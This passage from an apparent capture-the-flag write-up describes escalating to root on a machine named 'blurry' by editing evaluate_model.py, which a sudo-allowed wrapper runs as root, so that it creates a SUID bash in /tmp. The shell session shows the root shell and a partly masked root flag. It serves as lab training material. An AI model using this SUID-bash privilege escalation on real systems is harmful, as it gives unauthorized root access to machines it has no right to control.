 
## Option 2: modifying evaluate_model.py

Now if I have the ability to edit /models that means I can move files in and out, and since evaluate_model.py is run from a root bash script it will be run as root, meaning I can modify it to make /tmp/bash and make it an SUID. 

```bash
jippity@blurry:/tmp/.raccoon$ cp evaluate_model.py /models/
jippity@blurry:/tmp/.raccoon$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
[+] Model /models/demo_model.pth is considered safe. Processing...
jippity@blurry:/tmp/.raccoon$ ls
backup.model  bash  demo_model.pth  evaluate_model.py  fickling_test.pth  linpeas.sh  pspy64  smaller_cifar_net
jippity@blurry:/tmp/.raccoon$ ./bash -p
bash-5.1# cat /root/root.txt
f7f3b34df530f-------------------
```
